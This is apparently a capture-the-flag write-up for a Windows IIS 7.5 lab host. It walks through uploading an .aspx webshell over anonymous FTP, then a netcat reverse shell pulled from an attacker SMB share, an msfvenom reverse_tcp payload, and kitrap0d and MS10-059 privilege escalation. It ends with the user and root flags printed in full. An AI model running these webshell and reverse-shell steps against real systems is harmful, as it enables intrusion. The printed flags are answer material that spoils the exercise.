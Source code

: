 ## Enumeration

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
```
### Key Findings

- **Anonymous FTP Login**
- **Web Server Running IIS7/ASP.NET** suitable for `.aspx` webshell

---

## Exploitation

### Manual Exploitation

From our enumeration, we know this is an **IIS 7 Server** that allows **Anonymous FTP login**. This allows us to upload files to the FTP server and access them through the web interface, allowing for **Remote Code Execution (RCE)**.

To exploit this, we will upload a WebShell. Since the server runs on ASP.NET, we will use an `.aspx` webshell.

There is a `cmd.aspx` webshell included in **SecLists**.

![Webshell in SecLists](Images/Pasted%20image%2020250315151139.png)

We will make a copy of this and upload it to the respective FTP server and access it via the HTTP web interface.

Copying the WebShell to our working directory and uploading the file via **Anonymous FTP** login:

![Uploading WebShell](Images/Pasted%20image%2020250315151416.png)

Accessing the WebShell via HTTP:

![Accessing WebShell](Images/Pasted%20image%2020250315151502.png)

#### Leveraging the WebShell for a Reverse Shell

We will generate a shell on the target Windows host using `nc.exe` instead of a generic Meterpreter payload.

Copy `nc.exe` to our local directory:

![Copy nc.exe](Images/Pasted%20image%2020250315151955.png)

Host our working directory as an SMB share for the WebShell to access the `nc.exe` file:

![Host SMB Share](Images/Pasted%20image%2020250315152338.png)

Now that we have the `nc.exe` file hosted, we can set up a listener for the shell and access the file via our WebShell:

- `nc -lnvp 9090` to set up the listener to catch the shell.
- `\\10.10.14.10\share\nc.exe -e cmd.exe 10.10.14.10 9090` in our WebShell to access the file.

![Listener Setup](Images/Pasted%20image%2020250315152645.png)

#### Exploitation Path

1. Upload a WebShell via Anonymous FTP login.
2. Host Netcat on a local SMB share.
3. Set up a local Netcat listener.
4. Utilize the WebShell to access the Netcat file and provide a reverse shell on port 9090.

---

### Metasploit Exploitation

1. Generate the MSFvenom payload:
    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=7781 -f aspx > shell.aspx`
2. Upload the file via FTP.
    
3. Set up a multi-handler for the respective payload:
    
    ![Multi-handler Setup](Images/Pasted%20image%2020250315165128.png)
    
4. Navigate to the shell via HTTP:
    
    ![Accessing Shell](Images/Pasted%20image%2020250315165212.png)
    

**Profit!**

---

## Post-Exploitation

### Enumeration

#### Manual Enumeration

#### Metasploit Enumeration

1. Background the session and load up **exploit suggester**:
    
    ![Exploit Suggester](Images/Pasted%20image%2020250315165334.png) ![Exploit Results](Images/Pasted%20image%2020250315165450.png)
    

### Privilege Escalation

#### Metasploit

From our enumeration, we found this host is vulnerable to **kitrap0d**. Configure the exploit and run it:

![Kitrap0d Exploit](Images/Pasted%20image%2020250315165635.png) ![System Privileges](Images/Pasted%20image%2020250315165731.png)

Now we have **system-level privileges**.

#### Manual Privilege Escalation

1. Run **Windows-Exploit-Suggester** locally:
    
    ![Windows-Exploit-Suggester](Images/Pasted%20image%2020250315173504.png)
    
2. We will use **MS10-059**:  
    [GitHub Link](https://github.com/abatchy17/WindowsExploits/tree/master/MS10-059%20-%20Chimichurri)
    
3. Host the exploit using a simple Python web server:
    
    yaml
    
    CopyEdit
    
    `python3 -m http.server 8000`
    
4. Using `certutil`, transfer the file over:
    
    ![Certutil File Transfer](Images/Pasted%20image%2020250315174309.png)
    
5. Exploit the vulnerability:
    
    ![Running Exploit](Images/Pasted%20image%2020250315174427.png) ![Successful Exploit](Images/Pasted%20image%2020250315174411.png) ![Privilege Escalation](Images/Pasted%20image%2020250315174501.png)
    

---

### Flags

#### User Flag

Submit the flag located on the `babis` user's desktop:

`d2b2bd39e219fabca3ec69cc395f3536`

![User Flag](Images/Pasted%20image%2020250315170131.png)

#### Root Flag

Submit the flag located on the `administrator`'s desktop:

`cd31f47cb2eed3c30b0fc335543ce6b4`
![](Images/Pasted%20image%2020250315170205.png)